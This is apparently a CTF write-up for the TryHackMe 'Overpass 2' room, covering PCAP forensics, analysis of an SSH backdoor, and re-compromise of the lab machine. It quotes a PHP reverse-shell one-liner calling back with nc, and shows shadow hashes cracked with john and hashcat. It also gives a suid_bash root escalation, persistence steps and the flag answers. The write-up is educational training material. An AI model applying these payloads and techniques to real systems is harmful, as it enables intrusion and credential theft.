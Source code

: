 THM - Overpass 2

# Task 1: Forensics - Analyse the PCAP
1. What was the URL of the page they used to upload a reverse shell? `/development/`. Found on tcp stream 0: `tcp.stream eq 0`.
2. What payload did the attacker use to gain access? `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`. Found on tcp stream 1: `tcp.stream eq 1`.
3. What password did the attacker use to privesc? `whenevernoteartinstant`. Found on tcp stream 3: `tcp.stream eq 3`.
4. How did the attacker establish persistence? `git clone https://github.com/NinjaJc01/ssh-backdoor`. Found on tcp stream 3: `tcp.stream eq 3`.
5. Using the fasttrack wordlist, how many of the system passwords were crackable?
	1. Additional users as shown in `/etc/passwd` on `tcp.stream eq 3`: 
	```
	james:$6$7GS5e.yv$HqIH5MthpGWpczr3MnwDHlED8gbVSHt7ma8yxzBM8LuBReDV5e1Pu/VuRskugt1Ckul/SKGX.5PyMpzAYo3Cg/:18464:0:99999:7:::
	paradox:$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0:18464:0:99999:7:::
	szymex:$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/:18464:0:99999:7:::
	bee:$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0:18464:0:99999:7:::
	muirland:$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.:18464:0:99999:7:::
	```
	
	2. Paste hashes in `passwords` file. 
	3. Download fasttrack wordlist with `https://raw.githubusercontent.com/trustedsec/social-engineer-toolkit/master/src/fasttrack/wordlist.txt` and run `sudo john --wordlist=/usr/share/wordlists/fasttrack.txt passwords`
	4. Output:
	```
	Using default input encoding: UTF-8
	Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
	Cost 1 (iteration count) is 5000 for all loaded hashes
	Will run 4 OpenMP threads
	Press 'q' or Ctrl-C to abort, almost any other key for status
	secret12         (bee)
	abcd123          (szymex)
	1qaz2wsx         (muirland)
	secuirty3        (paradox)
	4g 0:00:00:00 DONE (2020-12-01 20:28) 8.333g/s 462.5p/s 2312c/s 2312C/s Spring2017..starwars
	Use the "--show" option to display all of the cracked passwords reliably
	Session completed
	```
	5. Four (`4`) passwords are crackable using the fasttrack wordlist.

# Task 2: Research - Analyse the code

6. What's the default hash for the backdoor? `bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3` found at <https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go>.
7. What's the hardcoded salt for the backdoor? `1c362db832f3f864c8c2fe05f2002a05` found at <https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go>.
8. What was the hash that the attacker used? - go back to the PCAP for this! `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`. Found on tcp stream 3: `tcp.stream eq 3`.
9. Crack the hash using rockyou and a cracking tool of your choice. What's the password?
	1. Identify the hash: `hash-identifier 6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed`
	2. Output:
		```
		--------------------------------------------------
		
		Possible Hashs:
		[+] SHA-512
		[+] Whirlpool
		
		Least Possible Hashs:
		[+] SHA-512(HMAC)
		[+] Whirlpool(HMAC)
		--------------------------------------------------
		```
	3. Write hash and hardcoded salt (`1c362db832f3f864c8c2fe05f2002a05`) to `hash` file in format `hash:salt`.
	4. Hashcat craking command: `hashcat -m 1710 -a 0 -o cracked hash /usr/share/wordlists/rockyou.txt`. `man hashcat` finds `1720 = sha512($salt.$pass)` as the mode.
	5. `cat cracked`: `6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16`
	6. Password: `november16`

# Task 3: Attack - Get back in!

10. `nmap -T4 -Pn -sC 10.10.246.133`

	```
	Starting Nmap 7.80 ( https://nmap.org ) at 2020-12-01 21:48 EST
	Nmap scan report for 10.10.246.133
	Host is up (0.11s latency).
	Not shown: 997 closed ports
	PORT     STATE SERVICE
	22/tcp   open  ssh
	| ssh-hostkey: 
	|   2048 e4:3a:be:ed:ff:a7:02:d2:6a:d6:d0:bb:7f:38:5e:cb (RSA)
	|   256 fc:6f:22:c2:13:4f:9c:62:4f:90:c9:3a:7e:77:d6:d4 (ECDSA)
	|_  256 15:fd:40:0a:65:59:a9:b5:0e:57:1b:23:0a:96:63:05 (ED25519)
	80/tcp   open  http
	|_http-title: LOL Hacked
	2222/tcp open  EtherNetIP-1
	
	Nmap done: 1 IP address (1 host up) scanned in 18.20 seconds
	```

11. The attacker defaced the website. What message did they leave as a heading? `H4ck3d by CooctusClan`. Found on `http://10.10.246.133`.
12. Connect with `ssh james@10.10.246.133 -p 2222` and password `november16`. The attacker used the backdoor script and added that password in the `authorized_keys` file for james. This password is from the cracked hash.
13. `cat /home/james/user.txt`: `thm{d119b4fa8c497ddb0525f7ad200e6567}`
14. `james` home directory has `/home/james/suid_bash` file owned by root. Run it with `./.suid_bash -p` to get root.
15. `cat /root/root.txt`: `thm{d53b2684f169360bb9606c333873144d}`
16. `run persist.passwd` in [pwncat](https://github.com/calebstewart/pwncat) local shell for persistance through `/etc/passwd`.